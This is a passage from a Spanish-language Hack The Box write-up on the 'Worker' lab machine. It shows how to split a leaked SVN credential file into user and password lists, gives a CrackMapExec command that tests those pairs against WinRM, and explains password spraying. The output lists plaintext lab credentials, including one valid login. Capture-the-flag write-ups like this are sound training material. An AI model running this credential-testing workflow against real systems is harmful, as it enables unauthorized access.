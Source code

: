 Con esta lista de usuarios, vamos a utilizar la herramienta [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) para ver si tenemos algún login válido para [WinRM](https://docs.microsoft.com/en-us/windows/win32/winrm/portal).

Primero vamos a separar los users de las passwords en dos ficheros separados.
* Users: cat passwd | tr -d =  | cut -f 1 -d " " > svn-users
* Passwords: cat passwd | tr -d =  | cut -f 3 -d " " > svn-passwd

![Worker-Users-Passwd](/assets/imagenes/2021-01-30-worker-HTB/Worker-Users-Passwd.png)

Una vez tengamos los usuarios separados de las passwords, vamos a usar, como ya he mencionado antes, la herramienta crackmapexec para probar los pares de credenciales en el servicio WinRM.
* Comando: crackmapexec winrm 10.10.10.203 -u svn-users -p svn-passwd --no-bruteforce

Lo que estamos ejecutando cuando realizamos el comando es probar en el servicio WinRM de la maquina Worker (10.10.10.203) los usuarios que tenemos en el fichero svn-users con la password del fichero svn-password que se encuentre en la misma linea que el usuario que esta intentando conectarse.

Si no le indicásemos la opción de --no-bruteforce, ejecutaría lo que se llama un ataque de [password spraying](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/). Este ataque se basa en la existencia de varios usuarios validos y un numero limitado de contraseñas.
Lo que se haría entonces sería probar con esos usuarios todas las contraseñasque tengamos para cada uno de ellos.


```bash
crackmapexec winrm 10.10.10.203 -u svn-users -p svn-passwd --no-bruteforce                                                      
WINRM       10.10.10.203    5985   NONE             [*] None (name:10.10.10.203) (domain:None)
WINRM       10.10.10.203    5985   NONE             [*] http://10.10.10.203:5985/wsman
WINRM       10.10.10.203    5985   NONE             [-] None\nathen:wendel98
WINRM       10.10.10.203    5985   NONE             [-] None\nichin:fqerfqerf
WINRM       10.10.10.203    5985   NONE             [-] None\nichin:asifhiefh
WINRM       10.10.10.203    5985   NONE             [-] None\noahip:player
WINRM       10.10.10.203    5985   NONE             [-] None\nuahip:wkjdnw
WINRM       10.10.10.203    5985   NONE             [-] None\oakhol:bxwdjhcue
WINRM       10.10.10.203    5985   NONE             [-] None\owehol:supersecret
WINRM       10.10.10.203    5985   NONE             [-] None\paihol:painfulcode
WINRM       10.10.10.203    5985   NONE             [-] None\parhol:gitcommit
WINRM       10.10.10.203    5985   NONE             [-] None\pathop:iliketomoveit
WINRM       10.10.10.203    5985   NONE             [-] None\pauhor:nowayjose
WINRM       10.10.10.203    5985   NONE             [-] None\payhos:icanjive
WINRM       10.10.10.203    5985   NONE             [-] None\perhou:elvisisalive
WINRM       10.10.10.203    5985   NONE             [-] None\peyhou:ineedvacation
WINRM       10.10.10.203    5985   NONE             [-] None\phihou:pokemon
WINRM       10.10.10.203    5985   NONE             [-] None\quehub:pickme
WINRM       10.10.10.203    5985   NONE             [-] None\quihud:kindasecure
WINRM       10.10.10.203    5985   NONE             [-] None\rachul:guesswho
WINRM       10.10.10.203    5985   NONE             [-] None\raehun:idontknow
WINRM       10.10.10.203    5985   NONE             [-] None\ramhun:thisis
WINRM       10.10.10.203    5985   NONE             [-] None\ranhut:getting
WINRM       10.10.10.203    5985   NONE             [-] None\rebhyd:rediculous
WINRM       10.10.10.203    5985   NONE             [-] None\reeinc:iagree
WINRM       10.10.10.203    5985   NONE             [-] None\reeing:tosomepoint
WINRM       10.10.10.203    5985   NONE             [-] None\reiing:isthisenough
WINRM       10.10.10.203    5985   NONE             [-] None\renipr:dummy
WINRM       10.10.10.203    5985   NONE             [-] None\rhiire:users
WINRM       10.10.10.203    5985   NONE             [-] None\riairv:canyou
WINRM       10.10.10.203    5985   NONE             [-] None\ricisa:seewhich
WINRM       10.10.10.203    5985   NONE             [-] None\robish:onesare
WINRM       10.10.10.203    5985   NONE             [+] None\robisl:wolves11 (Pwn3d!)
```
